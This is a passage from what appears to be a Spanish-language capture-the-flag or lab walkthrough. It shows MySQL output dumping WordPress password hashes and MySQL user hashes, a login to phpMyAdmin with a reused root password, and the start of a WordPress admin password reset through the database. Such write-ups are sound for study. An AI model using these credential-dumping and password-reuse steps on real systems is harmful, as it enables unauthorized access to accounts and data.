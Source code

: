 ```sql
| $P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1 |
| $P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0 |
| $P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1 |
| $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 |
| $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 |
| $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 |
| $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. |
| $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 |
| $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. |
| $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 |
| $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 |
+------------------------------------+
16 rows in set (0.000 sec)

```
---

```sql
MySQL [mysql]> select user from user; select authentication_string from user;
+------------------+
| user             |
+------------------+
| root             |
| debian-sys-maint |
| mysql.session    |
| mysql.sys        |
| phpmyadmin       |
| root             |
+------------------+
6 rows in set (0.000 sec)

+-------------------------------------------+
| authentication_string                     |
+-------------------------------------------+
| *9B2DDC0D01126C483D173FB2A0ED14FFEC2B45AA |
| *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
| *DA79B10C207695571B8B72309996531AC6504291 |
| *5153994ADAD440E919F0FD79B30131EB30A54CBB |
| *9B2DDC0D01126C483D173FB2A0ED14FFEC2B45AA |
| *THISISNOTAVALIDPASSWORDTHATCANBEUSEDHERE |
+-------------------------------------------+
6 rows in set (0.000 sec)
```

Ok. ¿Que carajo hago tantos hashes? Porque parecen ser MD5 pero tamnbién parecen tener un [salt](https://es.wikipedia.org/wiki/Sal_(criptograf%C3%ADa).

Por el momento veo que el paswword del usuario admin de **PHPMyAdmin** es el mismo que el del usuario **root** de **MySQL** que ya conocemos. Probé suerte para loguearme en: ``https://10.0.0.127:12380/phpmyadmin/`` con esa pareja de credenciales y pude entrar!!

Una vez adentro decidi cambiar el password de un usuario admin de **Wordpress**. Para eso seguí el siguiente [tutorial](https://www.wpbeginner.com/beginners-guide/beginners-guide-to-wordpress-database-management-with-phpmyadmin/#resetpassword). Bastante simple:

---